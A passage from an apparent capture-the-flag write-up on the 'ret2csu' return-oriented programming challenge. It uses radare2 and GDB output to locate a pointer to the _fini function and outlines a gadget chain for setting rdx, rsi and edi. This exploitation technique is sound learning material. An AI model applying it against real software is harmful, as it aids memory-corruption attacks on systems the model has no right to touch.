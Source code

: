```
            ;-- .fini:
╭ 9: sym._fini ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
│           0x004006b4      4883ec08       sub rsp, 8	; [14] -r-x section size 9 named .fini
│           0x004006b8      4883c408       add rsp, 8
╰           0x004006bc      c3             ret
```
- Both `_init` and `_fini` functions look like they can be used, so I've chosen to use `_fini`
- Search for references to _fini function within the ELF binary via its hex value `0x00000000004006b4` (note: need to take into account endianness):
> [0x00400520]> `/x b406400000000000`  
```
Searching 8 bytes in [0x601038-0x601040]
hits: 0
Searching 8 bytes in [0x600df0-0x601038]
hits: 1
Searching 8 bytes in [0x400000-0x400828]
hits: 1
Searching 8 bytes in [0x100000-0x1f0000]
hits: 0
0x00600e48 hit0_0 b406400000000000
0x004003b0 hit0_1 b406400000000000
```
-Two matches were found, so pick one (i.e. either `0x00600e48` or `0x004003b0`) and that will be the pointer to `_fini` function

> - As a sidenote, the address `0x00600e48` is in the `_DYNAMIC` object, which can be easily viewed in hex view (cycle through view modes using `p` key if necessary until you reach hex view):
> > [0x00400520]> `V @ obj._DYNAMIC`  
> ```
> [0x00600e00 [Xadvc]0 42% 1440 ./ret2csu]> xc @ obj._DYNAMIC
> - offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
> [...]
> 0x00600e30  0c00 0000 0000 0000 d004 4000 0000 0000  ..........@.....
> 0x00600e40  0d00 0000 0000 0000 b406 4000 0000 0000  ..........@.....
> ```
> - A better view of this is in GDB:
> > (gdb) `x/4gx (void*) &_DYNAMIC + 0x38`  
> ```
> 0x600e38:	0x00000000004004d0	0x000000000000000d
> 0x600e48:	0x00000000004006b4	0x0000000000000019
> ```
> - And the address `0x004003b0` is in the `.dynsym` section
> > [0x00400520]> `V @ sym..dynsym`  
> ```
> [0x004002d0 [Xadvc]0 0% 1440 ./ret2csu]> xc @ section..dynsym
> - offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
> [...]
> 0x004003b0  b406 4000 0000 0000 0000 0000 0000 0000  ..@.............
> ```
- So the plan is to:
  1. Use `pop r12; pop r13; pop r14; pop r15; ret` to place our desired values into registers (most importantly r15, which will then be moved to rdx in Step 2. below)
  2. Use `mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]` to mov the values into the correct registers (except for rdi, which will need to be set afterwards in a later step)
  3. Keep control of the program after `call qword [r12 + rbx*8]` was executed in Step 2. above (continue to section below to see how this was achieved)
